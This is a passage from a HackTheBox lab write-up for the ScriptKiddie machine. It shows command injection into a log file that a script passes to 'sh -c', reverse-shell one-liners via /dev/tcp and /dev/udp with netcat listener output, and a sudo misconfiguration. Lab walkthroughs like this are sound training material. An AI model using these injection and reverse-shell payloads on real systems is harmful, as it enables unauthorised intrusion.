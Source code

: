 I created my own version of the script to see what it does on my local machine.
```
cat test.sh
#!/bin/bash

log=/home/hippoeug/hackers

cd /home/hippoeug
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
Testing things here and there, I understood that only the third element onwards from the `hackers` file would be executed as a variable.

`sh -c` is also a executing command, and in this case it would be executed by user `pwn`. I intend to exploit this by spawning a reverse shell.
```
echo "ignore ignore ';sh -i >& /dev/udp/10.10.14.12/6969 0>&1'" >> hackers

hippoeug@kali:~$ nc -lvnp 6969
listening on [any] 6969 ...
```
At this point, I was too frustrated to continue on, gave up and left.

BUT. I came back stronger (with some help)... and turns out I was really close to finishing it previously.

My command was almost right, and I needed 3 spaces at the front. `ignore ignore ` was 4 characters, not 3. I ended up using 3 spaces at the front instead.
```
echo "   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.x.x/1234 0>&1' #" >> hackers

hippoeug@kali:~$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.x.x] from (UNKNOWN) [10.129.95.150] 41366
bash: cannot set terminal process group (832): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ 
```
Through this, I got into user `pwn`!

Alternatively, I could have written `echo "ignore  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.41/1234 0>&1' #" >> hackers`, with 2 spaces after `ignore`.

## 7. Final Privilege Escalation & Getting Root Flag
As seen in [`Blocky`](https://github.com/HippoEug/HackTheBox/blob/main/Machines%20(Easy)/Blocky.md), there was something we should always try when privilege escalating Linux machines.
```
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
Indeed, this works!
